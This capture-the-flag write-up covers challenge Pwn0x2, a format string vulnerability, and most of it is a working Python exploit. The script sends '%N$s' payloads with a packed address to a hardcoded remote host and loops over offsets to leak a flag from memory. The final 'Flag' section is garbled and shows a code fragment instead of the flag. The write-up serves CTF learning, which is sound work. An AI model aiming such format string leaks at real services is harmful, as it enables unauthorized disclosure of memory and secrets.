


## Summary

Challenge **Pwn0x2** from the 2025_SADC-NextGenCyber-CTF CTF, binary exploitation category.

## Statement and artefacts

See the original challenge files and images in this directory.

## Recognition signals

- (see resolution method below)

## Resolution method

# Pwn0x2



Here we need to exploit a format string vulnerability 

By exploiting this vulnerability we can read variable on the stack

The exploit code

```python
import socket
import struct
import time

HOST = "109.205.181.210"
PORT = 14001
ADDR = 0x404030
MAX_OFFSET = 50
RECV_TIMEOUT = 1.0

def try_offset(off):
    fmt = f"%{off}$s".encode()
    padding = b"AAAA"
    addr = struct.pack("<Q", ADDR)
    payload = fmt + padding + addr + b"\n"
    print(f"Sending f{payload.decode()}")

    s = socket.create_connection((HOST, PORT), timeout=5)
    s.settimeout(RECV_TIMEOUT)
    try:
        data = b""
        try:
            data += s.recv(4096)
        except socket.timeout:
            pass

        s.sendall(payload)
        time.sleep(0.05)
        # recv loop
        got = b""
        while True:
            try:
                part = s.recv(4096)
                if not part:
                    break
                got += part
            except socket.timeout:
                break
    finally:
        s.close()

    return payload, got

def main():
    print(f"Trying to read flag at 0x{ADDR:06x} from {HOST}:{PORT}\n")
    for off in range(1, MAX_OFFSET + 1):
        payload, got = try_offset(off)
        text = got.decode(errors="ignore")
        print(f"[offset {off:2}] -> {repr(text)[:120]}")
        if "SADC{" in text:
            start = text.find("SADC{")
            end = text.find("}", start)
            flag = text[start:end+1] if end != -1 else text[start:]
            print("\n+++ FOUND FLAG +++")
            print(f"offset = {off}")
            print(flag)
            return

    print("\nTried all offsets up to", MAX_OFFSET, "but didn't find SADC{...}.")

if __name__ == "__main__":
    main()
```



**FLAG:** SADC{Fstr_pwn3r_0x2}

This challenge was solved by one of my teamate. I’m not that familiar with the format string vulnerability for now :)

## Flag

SADC{" in text:
            start = text.find("SADC{")
            end = text.find("}

## Lessons and reusable patterns

- (see resolution method above)
